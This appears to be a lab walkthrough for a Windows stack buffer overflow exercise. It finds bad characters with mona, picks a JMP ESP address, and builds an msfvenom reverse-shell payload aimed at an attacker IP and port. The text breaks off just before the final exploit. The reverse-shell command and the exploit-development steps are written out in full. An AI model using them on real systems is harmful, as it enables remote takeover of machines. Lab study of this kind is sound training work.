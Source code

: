 so after running the exploit all the bad chars will move into esp register as that is the one came after eip.

esp points to bytes directly after eip
so following dump of esp  we get 

01 02 03 04 05 06 0a 0d 

![bad](https://i.imgur.com/pbXMCjr.png)

so from athe above thing we can say one of (oa or 0d ) is bad char so lets do a hit and trail method lets do it manual by changing the bytes this i am going to do it using mona 

`!mona bytearray -b "\x00"`

and 

`!mona compare -f C:\mona\oscp\bytearray.bin -a <address>`

which gives me the curreption of 6 bytes 

![bytes](https://i.imgur.com/H527PQi.png)

this is what we excepted. but some this may not be bad characters. now lets check by removing 07 from payload and crashing it again.

after crashing remeber to re run the comparte command with the address

so after comparing we get to know 08 wasnt a bad character so lets dig more

![ch](https://i.imgur.com/9GExdZj.png)

so now lets follow the dump of esp 

from this we can assume the bad characters as \x00\x07\x2e\xa0 
 so lets modify our exploit again by removing this bytes and give a hit

so doing comparision again...
![compare](https://i.imgur.com/YqofX47.png)

finally we got status as unmodified which means we found all the bad characters.

so now we know what the bad characters are so lets go find jump points.

using command `!mona jmp -r esp -cpd "\x00\x07\x2e\xa0"`

so after we run this we get 9 jump commands from log-data window like this 

![log](https://i.imgur.com/3vn3a1h.png)

we can use any of them i am gonna use the first one which is 625011AF

with the help of this jmp point i am gonna generate a payload and get reverse shell lets goo...

`msfvenom -p windows/shell_reverse_tcp LHOST=10.11.25.3 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f py` 
with this i genrated a rev shel and modified my exploit and also add the nop at padding which is `padding = "\x90" * 16 `so the final exploit is:- 
